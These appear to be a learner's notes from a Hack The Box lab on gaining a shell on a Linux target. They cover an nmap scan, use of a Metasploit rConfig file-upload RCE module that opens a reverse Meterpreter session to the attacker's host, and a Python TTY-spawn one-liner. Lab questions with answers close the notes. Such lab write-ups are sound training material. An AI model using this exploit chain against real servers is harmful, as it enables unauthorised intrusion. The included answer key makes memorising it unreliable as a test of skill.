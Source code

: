 
Things to consider when working with a Linux/Unix target: 
- What distro are they running?
- What shell and programming languages are currently on the system?
- What is the function of the server?
- What apps is it hosting?
- Are there any known vulnerabilities?

## Gaining a Shell

**Enumerating the Host w/ nmap:**

```shell-session
realCustampin@htb[/htb]$ nmap -sC -sV 10.129.201.101

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 09:09 EDT
Nmap scan report for 10.129.201.101
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
```
- Based on our scan, what services do we see that are running?
	- MySQL
	- FTP
	- HTTP
	- HTTPS
- Based on the information directly above, we can safely assume that the target is hosting a web application. 
- We should also give the page a look prior to making a decision on the angle of attack. 

**Vulnerable Web Application Discovery:**

![[Pasted image 20251023195920.png]]
- We can see that the web app that is running is called rConfig. Let's look for some vulnerabilities that are tied to this application. Notice the version at the bottom of the page too. VALUABLE INFORMATION!!! 
- A quick google search shows that there is an exploit for that specific version of rConfig. 

**Searching for a Module via Metasploit:**
```shell-session
msf6 > search rconfig

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce             2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download          2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce  2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/unix/webapp/rconfig_install_cmd_exec     2019-10-28       excellent  Yes    rConfig install Command Execution
```
- We can see that there is not an exploit popping up for rConfig 3.6.9, however we can still use the internet to download the exploit from github and upload it to the following file path on our attacking host: 
	- `/usr/share/metasploit-framework/modules/exploits/linux/http`
- It is good knowledge to know the exploit modules are also in the following directory: 
	- `/usr/share/metasploit-framework/modules/exploits`

## Using the rConfig Exploit and Gaining a Shell

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```
- We are now wanting to use the exploit that we just put into the folder. 
- Fill out the options accordingly

**Execute the Exploit:**

```shell-session
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

## Spawning a TTY Shell w/ Python
- If we gain a shell on a target, however there is no TTY, we can spawn a shell using the following python one-liner:

```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	  ```

## Lab Questions: 

Target IP: 10.129.220.95

1. What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?
	1. php
2. Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.
	1. edgereouter-isp
